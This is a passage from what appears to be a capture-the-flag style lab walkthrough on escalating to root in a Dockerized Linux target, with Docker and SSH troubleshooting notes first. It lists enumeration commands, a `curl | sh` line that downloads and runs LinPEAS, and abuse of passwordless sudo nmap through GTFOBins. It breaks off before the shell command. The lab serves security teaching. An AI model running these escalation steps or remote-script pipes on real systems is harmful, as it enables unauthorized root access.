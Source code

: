 ###### User password: regular
 
#### Possible problems:

1. If you have not disabled past lab benches, an error may appear:

Bind for 0.0.0.0:2022 failed: port is already allocated

In this case, run the docker ps command, find a running container that uses the previously occupied port, and stop it with the command:
```bash
docker stop [container name or id]
```
2. If you previously set up SSH services on your own node, then the digital signature of your new service may not match the old one. In this case, the SSH client will not allow you to connect to its own service and will display an error:

@WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! @

This means that the ~/.ssh/known_hosts file still has the same digital signature for host 127.0.0.1.

To eliminate this error, you need to go to the ~/.ssh/known_hosts file and remove the entries associated with the IP address 127.0.0.1 from the file.

These lines might look like this:
```bash
[127.0.0.1]:2022 ecdsa-sha2-nistp256 AAAA………….……1cV6VE=
```

### How to solve

You are on a node with Linux OS, your task is to elevate your privileges to the Root level.

Course of action

1. Check the rights of the current user:
```bash
$id
```
2. We note that the current user is a member of the sudo group and, therefore, can execute various commands with elevated privileges. We get a list of such commands:
```bash
$ sudo -l
```
3. We see that we can run the nmap utility without entering a password; check that the permissions are actually elevated by using the -sS scan option available only for root:
```bash
$ sudo nmap -sS localhost
```
4. For a more complete search for vectors for elevation of rights, we will use the LinPEAS utility:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Download and execute this script, analyze its output:
```bash
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
5. To find ways to execute arbitrary code using an elevated utility, we turn to the resource https://gtfobins.github.io/ and find nmap there. To get an interactive shell as root, we use the commands from the gtfobins resource and make nmap execute a Lua script that opens a shell:
